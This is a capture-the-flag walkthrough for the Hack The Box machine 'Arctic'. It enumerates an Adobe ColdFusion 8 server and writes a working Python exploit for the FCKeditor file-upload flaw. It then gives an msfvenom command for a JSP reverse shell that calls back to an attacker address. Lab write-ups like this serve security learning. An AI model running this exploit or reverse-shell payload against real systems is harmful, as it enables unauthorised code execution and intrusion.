










# [Arctic](https://app.hackthebox.eu/machines/9) 

Start off with a quick `nmap`:


What is the `fmtp` service on port 8500? Check `searchsploit`:



No luck... Lets try connecting to it raw:



Okay, so this service is a webserver of sorts? Here is `index.html`:

```html
<html>
<head>
<title>Index of /</title></head><body bgcolor="#ffffff">
<h1>Index of /</h1><br><hr><pre><a href="CFIDE/">CFIDE/</a>               <i>dir</i>   03/22/17 08:52 μμ
<a href="cfdocs/">cfdocs/</a>              <i>dir</i>   03/22/17 08:55 μμ
</pre><hr></html>
```

Here is what we get:



inside `CFIDE` and `cfdocs`:





The folder `administrator` under `CFIDE` is interesting... Browsing to that page gives the following:



So this application is Adobe Cold Fusion version 8? Lets try `searchsploit` again...



Lets check out this arbitrary file upload and execution exploit for ColdFusion 8.0.1 at https://www.exploit-db.com/exploits/16788:



According to exploitDB, there is a nice Metasploit module for this... lets write it in Python:

```python
import sys
import requests

UPLOAD_PATH = '/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm'
TRIGGER_PATH = '/userfiles/file/'

if sys.version_info.major != 3:
    print('requires Python3')
    exit(-1)

if len(sys.argv) != 4:
    print(f'usage: python3 {sys.argv[0]} <ip> <port> <file>')
    exit(-1)

# upload payload
TARGET = f'http://{sys.argv[1]}:{sys.argv[2]}{UPLOAD_PATH}'
print(f'[*] uploading {sys.argv[3]} to {TARGET} ...')
r = requests.post(TARGET, 
                  files={
                      'newfile': (
                          sys.argv[3].replace('.jsp', '.txt'), 
                          open(sys.argv[3], 'rb'), 
                          'application/x-java-archive'
                      )
                  }, 
                  params={
                      'Command': 'FileUpload', 
                      'Type': 'File', 
                      'CurrentFolder': f'/{sys.argv[3]}\x00'
                  })
if (r.status_code != requests.codes.ok) or ('OnUploadCompleted' not in r.text):
    print('[-] ERROR')
    print(r.text)
    exit(-1)
print('[+] DONE')

# trigger payload
TARGET = f"http://{sys.argv[1]}:{sys.argv[2]}{TRIGGER_PATH}{sys.argv[3]}"
print(f'[*] triggering payload at {TARGET} ...')
r = requests.get(TARGET)
if r.status_code != requests.codes.ok:
    print('[-] ERROR')
    print(r.text)
    exit(-1)
print('[+] DONE')
```

Next we need a JSP payload (https://netsec.ws/?p=331):

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=6969 -f raw > 5678.jsp
```

And then we execute it:



And that gives us our user shell! Lets get that flag:



